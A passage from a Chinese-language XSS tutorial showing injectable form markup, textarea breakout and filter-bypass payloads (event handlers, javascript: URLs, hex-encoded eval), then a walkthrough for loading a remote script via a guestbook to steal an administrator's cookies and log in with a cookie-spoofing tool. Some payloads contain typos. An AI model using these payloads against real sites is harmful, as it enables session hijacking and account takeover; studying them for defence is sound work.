 页面代码：

```html
<center>
  <h6>把我们输入的字符串 输出到input里的value属性里</h6>
  <form action="" method="get">
    <h6>请输入你想显现的字符串</h6>
    <input type="text" name="xss_input_value" value="输入" />
    <br />
    <input type="submit" />
  </form>
  <hr />
  <input type="text" value="" onmousemove="alert('我就测试一下')"">
</center>
```

**说明：输入以后，鼠标在移动是触发事件，形成 xss 攻击。**

那么，我在<textarea> 标签中显示呢？

此时就这样输入：

```html
</textarea> <script>alert(‘xss’)</script> // 就可以实现弹窗了
```

## 过滤的解决办法

假如说网站禁止过滤了 script 这时该怎么办呢 ？

那么就需要记住：**只要页面能触发你的 js 代码**

有哪些方法呢？

```html

<!-- 当找不到图片名为1的文件时，执行alert('xss') -->
<img scr=1 onerror=alert('xss')>

<!-- 点击s时运行alert('xss') -->
<a href=javascrip:alert('xss')>s</a>

<!-- 利用iframe的scr来弹窗 -->
<iframe src=javascript:alert('xss');height=0 width=0 /><iframe>

 <!-- 过滤了alert来执行弹窗 -->
<img src="1" onerror=eval("\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29")></img>
```

## xss 的利用

```html
<script scr="js_url"></script>

<img src=x onerror=appendChild(createElement('script')).src='js_url' />
```

**比如我们在网站的留言区输入`<script scr=”js_url”></script>`**

**当管理员进后台浏览留言的时候，就会触发**

**然后管理员的 cookies 和后台地址还有管理员浏览器版本等等**

**你都可以获取到了，再用“桂林老兵 cookie 欺骗工具”来更改你的 cookies，**

**就可以不用输入账号 密码 验证码 就可以以管理员的方式来进行登录了。**

